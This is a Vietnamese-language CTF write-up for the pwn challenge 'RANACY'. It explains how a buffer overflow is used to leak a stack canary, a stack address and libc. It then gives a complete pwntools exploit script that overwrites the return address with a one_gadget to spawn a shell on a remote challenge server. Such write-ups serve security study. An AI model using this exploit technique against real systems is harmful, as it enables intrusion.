







# RANACY



Bài cho ta 1 file binary có bật `Canary` và `NX`

Ta tiến hành phân tích hàm trong ida để hiểu rõ xem chương trình làm gì:



Ta thấy trong hàm `vuln` có lỗi `Buffer over flow` , như vậy hướng làm của chúng ta là overflow để ghi đè vào địa chỉ return.

Do chương trình có bật `canary` nên ta phải leak được canary trước đã:



Như ta thấy thì `canary` luôn có byte `0x00` ở cuối, vậy nên ta muốn leak thì buộc phải ghi đè 1 byte lên rồi chút nữa khôi phục lại sau:

```python
# LEAK CANARY
sla(">",b'1')
sla(b'>',b'a'*264)
sla(">",b'2')
p.recvuntil(b'aaa\n')
leak_canary = u64(b'\0' + p.recv(7)  ,16)
info(hex(leak_canary))
```
Vậy tiếp theo ta cần thay đổi địa chỉ ret. Ý tưởng của mình dùng `one_gadget`:





Khi dừng ngay trước lệnh return, ta nhận thấy chỉ có `one_gadget` cuối là có thể thỏa mãn, tuy nhiên làm sao để chắc chắn `[rbp-0x70]` và `[rbp-0x48]` = `NULL`

Vậy mình nghĩ đến việc leak địa chỉ stack để thay đổi thành vùng stack trống ví dụ:



Ta theo hướng dùng `one_gadget` vậy nên cần leak cả địa chỉ libc nữa. Gộp tất cả lại [solve.py](./chall/deploy/solve.py) và **bùm**:



```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./ranacy_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*0x401337

        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('67.223.119.69',5006)
else:
    p = process([exe.path])
#GDB()

#pass1: leak canary,rbp
sla(">",b'1')
sla(b'>',b'a'*264)
sla(">",b'2')
p.recvuntil(b'aaa\n')
leak_canary = u64(b'\0' + p.recv(7)  ,16)
leak_rbp = u64( p.recv(6) + b'\0\0'  ,16)
info(hex(leak_canary))
info(hex(leak_rbp))

#2:leak libc
sla(">",b'1')
sla(b'>',b'a'*288)
sla(">",b'2')
p.recvuntil(b' '*8)
leak_libc = u64( p.recv(6) + b'\0\0'  ,16)
libc.address = leak_libc - 0x29d90
info(hex(leak_libc))
info(hex(libc.address))


execve = 0xebd43 + libc.address
sla(">",b'1')

payload = b'b'*264
payload += p64(leak_canary)
payload += p64(leak_rbp+0x580)
payload += p64(execve)
sla(b'>',payload)


#3:change ret
#4 ret

p.interactive()
```

**FLAG**: `KCSC{I5_7h1s_g4m3_fun_Or_yOu_c4n_n0t_l34k_it _?}`

